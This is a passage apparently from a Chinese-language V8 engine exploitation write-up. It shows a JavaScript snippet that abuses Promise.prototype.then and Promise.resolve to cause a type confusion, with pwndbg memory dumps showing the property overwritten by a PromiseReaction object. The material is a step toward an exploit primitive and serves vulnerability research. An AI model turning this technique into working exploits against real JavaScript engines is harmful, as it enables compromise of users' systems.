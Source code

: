 我们前面构造的函数还差了个属性，这次给他补上：

```java
var a = {
    then : Promise.prototype.then,
    status : 0
};

var p1 = Promise.resolve(a);

setTimeout(()=>{
    console.log(a.then);
},100)
```

其实叫不叫status都无所谓应该，反正第二个属性会在0x10的偏移处，setTimeout是为了能让里面的handler在`Promise.resolve`之后执行

这个在debug版本下直接报错了，因为a.then被改成了promiseReactions：

![](./img/debug4.png)

此时的rcx和eax：

```cpp
pwndbg> job $rcx
0x156908108b7d: [JS_OBJECT_TYPE]
 - map: 0x1569082c745d <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x156908283c69 <Object map = 0x1569082c21b5>
 - elements: 0x156908042229 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x156908042229 <FixedArray[0]> {
    0x156908044ce9: [String] in ReadOnlySpace: #then: 0x1569082893c9 <JSFunction then (sfi = 0x15690820d801)> (const data field 0)
    0x1569080a3151: [String] in ReadOnlySpace: #status: 0 (const data field 1)
 }
pwndbg> dd $rax-1
0000156908108bfc     08045709 082893c9 080423b1 080423b1
0000156908108c0c     08108bd5 080423b1 beadbeef beadbeef
0000156908108c1c     beadbeef beadbeef beadbeef beadbeef
0000156908108c2c     beadbeef beadbeef beadbeef beadbeef
pwndbg> job 0x08045709
0x156908045709: [Map] in ReadOnlySpace
 - type: PROMISE_REACTION_TYPE
 - instance size: 24
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
```